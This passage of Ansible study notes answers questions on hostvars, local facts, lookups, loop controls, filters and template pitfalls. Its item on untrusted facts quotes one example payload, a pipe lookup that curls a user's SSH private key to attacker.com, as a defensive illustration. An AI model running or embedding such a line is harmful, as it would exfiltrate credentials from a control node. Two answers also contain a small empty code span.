- A **non-executable** file is parsed as **INI**, such as `/etc/ansible/facts.d/example.fact` with `[book]` followed by `title=Ansible: Up and Running`, or as **JSON**.
- An **executable file (`chmod 0755`)** runs on the target, and Ansible parses its **`stdout` as JSON**. For example, `/etc/ansible/facts.d/gpu.fact` prints `{"count": 8}`.

Either way, the result appears under **`ansible_local.<filename_without_ext>`**, such as `ansible_local.example.book.title` or `ansible_local.gpu.count`, and also under `ansible_facts['ansible_local']`.
</details>

<details>
<summary>6. What is the difference between `hostvars` and `host_vars/`, and how do `groups` and `hostvars` work together in cross-host templates (*Ansible: Up and Running*, chapter 5)?</summary>

- **`host_vars/`** (with an underscore) is an **on-disk directory** in your repository. It holds static per-host YAML variable files, such as `inventories/prod/host_vars/gpu001.yml`.
- **`hostvars`** (no underscore) is a **runtime magic dictionary** in memory. It maps every hostname in the inventory to all of that host's resolved variables and gathered facts, such as `hostvars['db.example.com']['ansible_default_ipv4']['address']`.

To render a load-balancer (`haproxy.cfg`), `/etc/hosts` or `slurm.conf` template that needs the addresses and hardware facts of every node in a group, iterate over **`groups['gpu']`** and index into **`hostvars[h]`**: `{{ hostvars[h]['ansible_host'] }} {{ h }}`.
</details>

<details>
<summary>7. Why does a template using `hostvars[h]['ansible_facts']['processor_vcpus']` fail with an `UndefinedError` when you run `ansible-playbook site.yml --limit slurmctl01`, and how do you fix it?</summary>

With `--limit slurmctl01`, Ansible runs the play, including `gather_facts: true`, **only on `slurmctl01`**. `hostvars['gpu001']` still holds `gpu001`'s static inventory variables, such as `ansible_host`. It holds none of `gpu001`'s runtime `ansible_facts`, because `setup` never ran on `gpu001`. You can fix this in one of two ways.
1. Enable **fact caching** with `gathering = smart` and `fact_caching = jsonfile`, so that `hostvars` loads cached facts for all hosts.
2. Add a dedicated fact-gathering play at the top of `site.yml`, such as `- hosts: cluster / gather_facts: true / tasks: []`. Or delegate fact gathering across `groups['gpu']` with `setup`, `delegate_to: "{{ item }}"` and `delegate_facts: true`.
</details>

<details>
<summary>8. Where do Ansible Lookups (`lookup`, `query`) execute, and how do `lookup()` and `query()` (`q()`) differ?</summary>

**Every lookup executes on the Ansible control node**, never on the remote target hosts, at the moment the Jinja2 expression is templated.
- **`lookup('file', 'a.txt', 'b.txt')`** returns a comma-separated **string** by default, unless you pass `wantlist=True`.
- **`query('file', 'a.txt', 'b.txt')`**, or **`q(...)`**, always returns a Python **`list`**. That makes `query()` the safer choice when you feed a lookup into `loop:`.
</details>

<details>
<summary>9. How does `lookup('password', ...)` work for idempotent credential generation?</summary>

`lookup('password', 'credentials/mysql_pass chars=ascii_letters,digits length=24')` checks whether the local file `credentials/mysql_pass` exists on the control node. If it does not, Ansible generates a random 24-character password and writes it to that file. On every later run, it reads the existing password from the file and returns it. That makes random password generation idempotent across playbook runs. Store the generated directory in Vault or in a secure local path.
</details>

<details>
<summary>10. Compare loading OS-specific variables via `vars_files` with `ansible.builtin.first_found`.</summary>

- **`vars_files: ["vars/{{ ansible_facts['os_family'] | lower }}.yml"]`** loads `vars/debian.yml` or `vars/redhat.yml` once facts are gathered.
- **`include_vars: "{{ lookup('ansible.builtin.first_found', params) }}"`** searches an ordered list of candidate files, from most specific to least specific. For example: `["{{ ansible_facts['distribution'] }}-{{ ansible_facts['distribution_version'] }}.yml", "{{ ansible_facts['os_family'] }}.yml", "default.yml"]`. It loads the **first file that exists**, so unfamiliar distributions fall back to `default.yml`.
</details>

<details>
<summary>11. How does the `extract` filter (`map('extract', hostvars, ...)`) project attributes across a group of hosts without writing a `` loop?</summary>

Given a list of hostnames in `groups['gpu']`, such as `['gpu001', 'gpu002']`, piping it into **`map('extract', hostvars, 'ansible_host') | list`** looks up `hostvars[h]['ansible_host']` for each name `h`. The result is `['10.1.10.1', '10.1.10.2']`. For nested facts, pass a list of path keys as the third argument, such as `groups['gpu'] | map('extract', hostvars, ['ansible_facts', 'default_ipv4', 'address']) | list`.
</details>

<details>
<summary>12. How do `dict2items`, `items2dict`, and `subelements` transform data structures for `loop:`?</summary>

- **`dict2items`** turns `{"vm.swappiness": 1, "kernel.numa_balancing": 0}` into `[{"key": "vm.swappiness", "value": 1}, {"key": "kernel.numa_balancing", "value": 0}]`, so a `sysctl` task can loop over `{{ item.key }}` and `{{ item.value }}`.
- **`items2dict`** reverses that, turning a list of `key` and `value` dicts back into a single dictionary.
- **`subelements('keys')`** flattens a one-to-many list, such as users who each hold a list of SSH public `keys`, into `(user_dict, single_key)` pairs (`item.0.name` and `item.1`). That lets `authorized_key` install every key for every user in one task.
</details>

<details>
<summary>13. Why is `package: { name: [chrony, rsync, htop, tmux], state: present }` much faster than using `loop: [chrony, rsync, htop, tmux]`?</summary>

When you pass a list straight to **`package:`, `apt:` or `dnf:`** (`name: [chrony, rsync, htop, tmux]`), Ansible calls `apt-get` or `dnf` **once, in a single package-manager transaction**, over one SSH execution. With `loop:`, Ansible uploads and runs the module **four separate times**. Each run makes `apt` or `dnf` lock the RPM or dpkg database, parse the metadata cache and resolve dependencies again, so the four passes add up.
</details>

<details>
<summary>14. What does `loop_control: { label: "{{ item.name }}", index_var: idx, pause: 2 }` do?</summary>

By default, a `loop:` over large dictionaries, such as user records with SSH keys or password hashes, prints the **entire dictionary for every item**. That clutters the log and risks exposing secrets. With **`loop_control: { label: "{{ item.name }}" }`**, the output shows only `item.name`, such as `ok: [gpu001] => (item=slurm)`. **`index_var: idx`** exposes the 0-based loop counter as `idx`, and **`pause: 2`** waits 2 seconds between iterations.
</details>

<details>
<summary>15. How do Ansible's network and unit filters (`ansible.utils.ipaddr`, `human_to_bytes`, `ternary`, `combine`) simplify infrastructure templates?</summary>

- **`'10.1.0.0/24' | ansible.utils.ipaddr('10')`** computes the 10th usable address in the subnet, `10.1.0.10/24`. It also validates IP and CIDR formats, and it can extract network and broadcast addresses.
- **`'64 GB' | human_to_bytes`** converts a human-readable size string into an exact byte integer.
- **`is_prod | ternary('warn', 'debug')`** is an inline conditional. It returns `'warn'` when `is_prod` is truthy, and `'debug'` when it is falsy.
- **`base_cfg | combine(override_cfg, recursive=True)`** merges nested dictionaries recursively, instead of replacing the top-level keys.
</details>

<details>
<summary>16. How do you render embedded YAML or JSON blocks cleanly inside a `.j2` template (`to_nice_yaml` + `indent`, `to_nice_json`)?</summary>

Never format complex nested YAML or JSON by hand inside a Jinja `` loop. One missing space or trailing comma on the last element breaks the file. Build the data structure in Ansible variables or filters, and serialise it with **`{{ my_data | to_nice_json }}`** or **`{{ k8s_values | to_nice_yaml(indent=2) | indent(4) }}`**. Those filters guarantee valid output, with deterministic indentation.
</details>

<details>
<summary>17. Why can an un-sorted dictionary or set in a Jinja2 template cause unnecessary service restarts across a fleet, and how do you prevent it?</summary>

If a template iterates over an unsorted list, such as `groups['gpu']`, or over a set, the line order in the rendered file can change with it. A change in inventory order, or in Python's set iteration order, makes `template` report **`changed: true`**, and that fires **`notify: Restart slurmctld`**. The semantic configuration did not change, but the service restarts anyway. Always pipe collections through **`| sort`**, and dictionaries through **`| dictsort`**, inside templates.
</details>

<details>
<summary>18. How does lazy variable evaluation (`b: "{{ a }}-suffix"`) work in Ansible, and what error occurs if you write `x: "{{ x }}-1"` in `group_vars`?</summary>

Ansible stores variables in `group_vars`, `host_vars` and `vars:` as unevaluated templates. It evaluates `{{ ... }}` **lazily**, at the moment a task or template consumes the variable. That lets you define `driver_pkg: "nvidia-driver-{{ nvidia_driver_branch }}"` once in `group_vars/all.yml`, while overriding `nvidia_driver_branch: 555` in `host_vars/gpu033.yml`. Defining a variable in terms of itself, such as `x: "{{ x }}-1"` in a static variable file, creates an infinite self-reference, and Ansible reports **`recursive loop detected in template string`**. If you need to rebind a variable based on its previous value, use `set_fact`.
</details>

<details>
<summary>19. What is the fastest workflow for debugging "why did variable `X` get this unexpected value on `gpu001`?"</summary>

1. Check the merged static inventory and the `group_vars` and `host_vars` resolution without running a playbook: `ansible-inventory -i inventories/prod --host gpu001 --yaml`
2. If the value differs at runtime inside a play, look for higher-precedence overrides: play `vars:`, `vars_files:`, role `vars/`, `set_fact` and `-e`. Run `grep -rn "nvidia_driver_branch" inventories/ roles/ playbooks/`, and print the value with `ansible gpu001 -i inventories/prod -m debug -a "var=nvidia_driver_branch"`.
</details>

<details>
<summary>20. Why are facts and registered outputs from target hosts considered untrusted data on the control node?</summary>

A compromised target host controls what `/usr/bin/python3` and `/etc/ansible/facts.d/*.fact` return over SSH, because the remote root user controls them. Suppose a fact contains `{{ lookup('pipe', 'curl attacker.com -d @~/.ssh/id_ed25519') }}`. If the control node re-evaluated that string as a Jinja2 template, the target would compromise the control node. Ansible prevents this by wrapping remote facts and registered strings in **`AnsibleUnsafeText` (`!unsafe`)**. Playbooks must never strip that wrapper, and they must never pass remote output into `lookup('pipe', ...)` without `| quote`.
</details>

## Sources and review notes

- **Sources read in full:**
  - `ansible-up-and-running-3rd-edition` — Bas Meijer, Lorin Hochstein & René Moser, *Ansible: Up and Running*, 3rd ed., **Chapter 5: Variables and Facts** (read in full: defining variables in playbooks and `vars_files: [nginx.yml]`, string concatenation with `~`, variable naming restrictions, `register` capturing `command` and `stat` results, subscript `result['stat']['mode']` vs dot `result.stat.mode` and Python dict method collisions like `.values`, `setup` module facts and `filter=`, local custom facts in `/etc/ansible/facts.d/example.fact` accessed via `ansible_local.example.book.title`, `set_fact`, built-in magic variables `hostvars` vs `host_vars/`, `inventory_hostname`, and `groups` iterating `groups.web` for HAProxy `backend web-backend`, and `-e @greetvars.yml` extra vars precedence).
- **Run here:** `python3 code/part04/ansible_variables_facts_lab.py` (3 passed, 0 failed).
- **Explicitly labelled inferences:** The `parse_local_fact_file`, `project_group_hostvars`, `render_haproxy_backend_from_groups`, and `dict2items_and_items2dict_roundtrip` models in `code/part04/ansible_variables_facts.py` and the `/etc/hosts`, `slurm.conf.j2`, and Prometheus `file_sd` `gpu.json` templates are the author's constructions applying *Ansible: Up and Running* Chapter 5 to GPU cluster configurations (plus original study items 21, 22, 23, 24, 25, 26, 27, 28, 29, 30, 31, 32, 33, 34, and 35).
- **Not verified on live hardware:** Live `ansible`, `ansible-playbook`, `setup`, `slurmd -f %s -C`, and HashiCorp Vault lookup commands (`550`, `550.90.07`, `1024`, `990`, `991`, `10.1.0.0/24`, `9400`, `203.0.113.15..38`, `0755`, `0644`, `0600`) are marked (`untested here`) where not executed by `ansible_variables_facts_lab.py`.
